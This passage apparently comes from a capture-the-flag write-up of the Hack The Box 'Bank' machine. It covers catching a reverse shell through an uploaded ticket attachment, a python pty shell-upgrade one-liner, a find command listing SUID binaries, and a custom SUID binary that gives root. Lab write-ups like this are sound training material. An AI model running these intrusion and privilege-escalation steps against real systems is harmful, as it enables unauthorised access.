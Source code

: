 ![](./images/bank/rev.png)

and we can see our ticket in the Attachment page now clicking on Click Here we get our shell back which you have to listen for with nc.

We get a non TTY session so lets spawn a tty shell we can use this command :

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

doing sudo -l we are prompted for a password so i will try other things for now lets search for files with SUID/GUID permissions.

```
find / -perm -u=s -type f 2>/dev/null
```

and searching for it we get this as our results :
```
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
```
and then just chekcing the emergency file its an executable lets try running it and guess what we get a root shell.
